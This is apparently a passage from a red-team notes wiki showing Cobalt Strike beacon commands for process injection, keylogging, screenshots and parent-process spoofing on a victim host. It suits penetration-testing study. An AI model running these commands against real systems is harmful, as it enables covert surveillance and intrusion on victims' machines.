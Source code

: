 {% page-ref page="../defense-evasion/masquerading-processes-in-userland-through-\_peb.md" %}

{% page-ref page="../../miscellaneous-reversing-forensics/exploring-process-environment-block.md" %}

### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:

{% code title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode %}

Note how after injecting the beacon to PID 776, another session is spawned:

![](../../.gitbook/assets/peek-2019-01-07-20-16.gif)

### Keylogger

{% code title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-31-30.png)

### Screenshot

{% code title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-33-51.png)

### Runu

Runu allows us launching a new process from a specified parent process:

{% code title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-39-20.png)
